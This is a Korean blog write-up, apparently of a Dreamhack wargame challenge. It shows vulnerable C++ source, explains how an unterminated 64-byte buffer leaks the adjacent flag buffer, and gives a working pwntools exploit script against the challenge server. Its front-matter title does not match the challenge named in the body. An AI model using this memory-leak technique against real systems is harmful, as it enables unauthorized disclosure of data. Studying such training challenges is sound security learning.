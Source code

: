 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN cpp_smart_pointer_1"
excerpt: "드림핵 포너블 cpp_smart_pointer_1 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-04-04 18:00
---
```


이번 문제는 드림핵 1단계 cpp_string이다.

C++에서 파일 읽기에 사용되는 is.read 함수는 C언어의 read함수를 std::ifstream에서 사용할 수 있게 포팅한 함수로 C언어의 read와 동일하게 동작한다.

이전 워 게임에서 메모리를 릭 할때 사용한 할당된 버퍼를 꽉 채운 뒤 null을 자리값을 임의 값으로 넣으면 이후 메모리 주소에 나열되어 있는 메모리 값이 같이 읽히는 것을 볼 수 있다. 이와 동일한 버그가 발생한다는 뜻이다.

우선 소스코드를 살펴보자.

```c++
//g++ -o cpp_string cpp_string.cpp
#include <iostream>
#include <fstream>
#include <csignal>
#include <unistd.h>
#include <stdlib.h>

char readbuffer[64] = {0, };
char flag[64] = {0, };
std::string writebuffer;

void alarm_handler(int trash)
{
    std::cout << "TIME OUT" << std::endl;
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int read_file(){
	std::ifstream is ("test", std::ifstream::binary);
	if(is.is_open()){
        	is.read(readbuffer, sizeof(readbuffer));
		is.close();

		std::cout << "Read complete!" << std::endl;
        	return 0;
	}
	else{
        	std::cout << "No testfile...exiting.." << std::endl;
        	exit(0);
	}
}

int write_file(){
	std::ofstream of ("test", std::ifstream::binary);
	if(of.is_open()){
		std::cout << "Enter file contents : ";
        	std::cin >> writebuffer;
		of.write(writebuffer.c_str(), sizeof(readbuffer));
                of.close();
		std::cout << "Write complete!" << std::endl;
        	return 0;
	}
	else{
		std::cout << "Open error!" << std::endl;
		exit(0);
	}
}

int read_flag(){
        std::ifstream is ("flag", std::ifstream::binary);
        if(is.is_open()){
                is.read(flag, sizeof(readbuffer));
                is.close();
                return 0;
        }
        else{
		std::cout << "You must need flagfile.." << std::endl;
                exit(0);
        }
}

int show_contents(){
	std::cout << "contents : ";
	std::cout << readbuffer << std::endl;
	return 0;
}
	


int main(void) {
    initialize();
    int selector = 0;
    while(1){
    	std::cout << "Simple file system" << std::endl;
    	std::cout << "1. read file" << std::endl;
    	std::cout << "2. write file" << std::endl;
	std::cout << "3. show contents" << std::endl;
    	std::cout << "4. quit" << std::endl;
    	std::cout << "[*] input : ";
	std::cin >> selector;
	
	switch(selector){
		case 1:
			read_flag();
			read_file();
			break;
		case 2:
			write_file();
			break;
		case 3:
			show_contents();
			break;
		case 4:
			std::cout << "BYEBYE" << std::endl;
			exit(0);
	}
    }
}
```

뭔가 기능이 많아보인다. main 함수부터 분석해보면 어떤 행동을 할지 selector 값을 입력 받는다.

1번 매뉴를 통해서 read_flag()함수가 동작하여 디렉터리에 있는 flag 파일을 버퍼 크기만큼 읽어 64 크기의 버퍼에 쓴다. 이후 read_file()함수를 통해 동일 디렉터리에 있는 file 파일을 버퍼 크기만큼 읽어 64 크기의 버퍼에 쓴다.

2번 매뉴를 통해서 file 파일에 버퍼 크기만큼의 값을 쓴다.

3번 매뉴를 통해 읽어온 file을 출력한다.

여기서 readbuffer와 flag 변수의 주소는 서로 연속적으로 배치되어 있다. readbuffer 다음에 바로 flag 변수의 주소이다.

따라서 readbuffer를 최대로 채워줘 문자열의 끝을 알리는 null 바이트를 다른 값으로 덮어 뜨면 flag 변수의 내용을 leak 할수 있다.

공격 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 9645)
#p = process("./iofile_vtable_check", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./cpp_string")
elf = ELF("./cpp_string")
#libc = ELF("./libc.so.6")

p.sendlineafter(b"[*] input : ", b"2")
p.sendlineafter(b"Enter file contents : ", b"a"*64)


p.sendlineafter(b"[*] input : ", b"1")
p.sendlineafter(b"[*] input : ", b"3")

print(p.recv())


p.interactive()
```